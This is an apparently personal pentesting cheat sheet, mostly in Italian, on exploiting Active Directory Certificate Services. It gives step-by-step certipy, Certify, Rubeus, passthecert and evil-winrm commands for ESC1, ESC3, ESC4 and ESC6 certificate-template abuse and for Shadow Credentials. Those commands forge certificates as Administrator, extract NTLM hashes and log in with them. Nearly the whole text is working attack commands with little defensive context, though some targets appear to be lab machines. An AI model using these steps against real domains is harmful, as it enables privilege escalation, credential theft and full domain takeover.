 ### **ENUMERAZIONE**
Cerca un template vulnerabile
```bash
certipy-ad find -u <USER> -p <PASS> -dc-ip <IP> -vulnerable -stdout
```
```powershell
./Certify.exe find /vulnerable
```
![[Pasted image 20230719143059.png]]
### **EXPLOIT ESC 1**
Hai la possibilità di enroll

```bash
impacket-addcomputer  <DOMINIO>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
![[Pasted image 20230719143908.png]]
controllo se è stato creato
```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMINIO>
```
![[Pasted image 20230719150304.png]]
Generiamo un certificato per l'account appena creatp
```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```
![[Pasted image 20230719150515.png]]
Ora dividi il certificato
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```
Usa il seguente tool per accere con il certificato
[PassTheCert/Python at main · AlmondOffSec/PassTheCert · GitHub](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)
```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
![[Pasted image 20230719150944.png]]
Entra con evil-winrm
### **EXPLOIT ESC 3**
Richiedi il certificato
```BASH
certipy-ad req -username <USER>@<IP> -password <PASS> -ca <NOME-CA> -target <NOME MACCHINA> -template <TEMPLATE LOCALE> -upn <USER DA PRENDERE>@<IP> -dns <NOME MACCHINA> -debug
```
```POWERSHELL
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:<TEMPLATE VULNERABILE> /altname:<TEMPLATE DA PRENDERE>
```
converti chiave e certificato in formato pfx12
```bash
openssl pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Carica rubeus e il cert.pfx sulla macchina e prendi l'hash ntlm
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20230719143559.png]]
Usa l'hash per loggare tramite evil-winrm
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H <HASH>
```
### **ESC 4 - ADCS**
Grazie al permesso genericWrite possiamo modificare il nostro template per renderlo vulnerabile all'ESC1
```bash
certipy-ad template -u <USER>@<DOMAIN> -p '<PASS>' -template <NOME TEMPLATE> -save-old -debug
```
![[Pasted image 20230828151521.png]]
Poi exploitalo come ESC1.
Per riportarlo alla normalità
```bash
certipy-ad template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```
![[Pasted image 20230828151547.png]]

### **ESC6**
The CA has EDITF_ATTRIBUTESUBJECTALTNAME2 flag set.
```cmd
C:\AD\Tools\Certify.exe cas
```
![[Pasted image 20231115141409.png]]
Look for a template that allow enrollment for normal user
```cmd
C:\AD\Tools\Certify.exe find
```
and request a certificate as any user you want using the "CA-integration" template
```cmd
C:\AD\Tools\Certify.exe request /ca:<DC.DOMAIN>\<CA> /template:"CA-Integration" /altname:<DOMAIN>\administrator
```
![[Pasted image 20231115142421.png]]
Save it and convert it
```cmd
C:\AD\Tools\openssl\openssl.exe pkcs12 -in <CERT> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <PFX>
```
![[Pasted image 20231115142542.png]]
Now use it with Rubeus to gain access
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:<DOMAIN>\administrator /certificate:<PFX> /dc:<MACHINE> /password:<CHOOSEN PASSWORD> /ptt
```
![[Pasted image 20231115142707.png]]

### **Shadow Credentials**
[Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover | by Elad Shamir | Posts By SpecterOps Team Members](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
Stealth e molto utile in caso di vero pentest.
Ha bisogno dell'opzione msDS-KeyCredentialLink abilitata sull'account (Se hai genericWrite o genericAll su un account puoi abilitarla da solo)
```bash
certipy-ad shadow auto -u <USER>@<DOMAIN> -p '<PASS>' -account '<NOME TARGET>'
```
![[Pasted image 20230828173854.png]]